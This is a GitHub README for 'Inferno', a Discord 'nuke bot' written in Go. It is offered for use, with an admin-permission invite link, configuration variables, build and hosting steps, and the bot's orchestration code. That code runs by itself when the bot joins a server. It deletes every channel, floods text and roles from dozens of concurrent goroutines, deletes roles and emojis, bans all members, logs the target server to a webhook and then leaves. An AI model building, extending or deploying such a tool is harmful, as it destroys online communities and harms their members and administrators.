 <img src="https://media.discordapp.net/attachments/1109426745012142081/1183350870079971449/IMG_9567.png?ex=65880461&is=65758f61&hm=44475ba2ed4ff3a5e0a01e530660de151736d11b3038d632fbb672e66a0bd8cf&=&format=webp&quality=lossless&width=1202&height=657">

# Inferno-Discord-Bot
A powerful Discord nuke bot written on Go

   * [Bot's authorization link](https://discord.com/api/oauth2/authorize?client_id=1167731957577285682&permissions=8&scope=bot)
   * [Discord Server](https://discord.gg/96qcRkEfXC)
   * [Telegram channel](https://t.me/anarchy_syndicate)
<hr>

# .env file
There's many variables such as 

<pre>
{
    BOT_TOKEN: bot's token
    
    WEBHOOK_ID: Webhook's ID
    WEBHOOK_TOKEN: Webhook's Token
    AVATAR_URL: avatar url for webhook

    CHANNEL_NAME: name of the channel
    SERVER_NAME: name of the server
    ROLE_NAME: name of the role

    EMBED_TITLE: Embed's title
    EMBED_DESCRIPTION: Embed's description

}
</pre>
/// All values are have string data type

# Code Structure
All bot's functions are in cogs folder
<pre>
    main.go
    auto.go
    .env
    avatar.webp
    - cogs
      - channels.go
      - emoji.go
      - leave.go
      - members.go
      - rename.go
      - roles.go
      - webhooks.go
</pre>

# main.go & auto.go
main.go - launches bot and OnGuildCreate handler from auto.go
<pre>
    sess.AddHandler(onGuildCreate) - function onGuildCreate is located in auto.go file
</pre>
<hr>
auto.go - launches bot's functions from cogs folder if bot joined the guilld
<pre>
func onGuildCreate(s *discordgo.Session, event *discordgo.GuildCreate) {
  var wg sync.WaitGroup

	cogs.Logs(s, event)
	cogs.GuildRename(s, event)

	wg.Add(1)
	go func() {
		defer wg.Done()
		cogs.DeleteChannels(s, event)
	}()
	wg.Wait()

	for i := 0; i < 50; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			cogs.TextSpam(s, event, &wg)
		}()
	}
	wg.Wait()

	wg.Add(1)
	go func() {
		defer wg.Done()
		cogs.DeleteRoles(s, event)
	}()
	wg.Wait()

	for i := 0; i < 40; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			cogs.RolesSpam(s, event)
		}()
	}
	wg.Wait()

	cogs.EmojiDelete(s, event)
	cogs.MemberBan(s, event)
	cogs.BotLeave(s, event)
    }
</pre>

# cogs folder
There's located all bot's functions.
<pre>
	channels.go: 2 functions (DeleteChannels, TextSpam)
	emoji.go: 1 function that deletes all emojis from the server
	leave.go: 1 function that leaves from the server
	members.go: 1 function that bans all members from the server
	rename.go 1 function that renames the server 
	roles.go: 2 functions that deletes and creates roles (DeleteRoles, RolesSpam)
	webhooks.go: 1 function that send logs before nuke bot starts other functions via webhook.
</pre>

# Installation guide
<pre>
	1. Clone or download repository's source code
	2. Install golang
	3. Go to Inferno folder
	4. Change values in .env
	5. Run go build Inferno
</pre>

# Where to host?
We recommend you to use <a href="https://fl0.com">fl0.com</a>, <a href="https://back4app.com">back4app.com</a> or <a href="https://render.com">render.com</a>. They're free and there you can host Inferno and other discord bots. More information about other hostings are <a href="https://github.com/DmitryScaletta/free-heroku-alternatives">here</a>

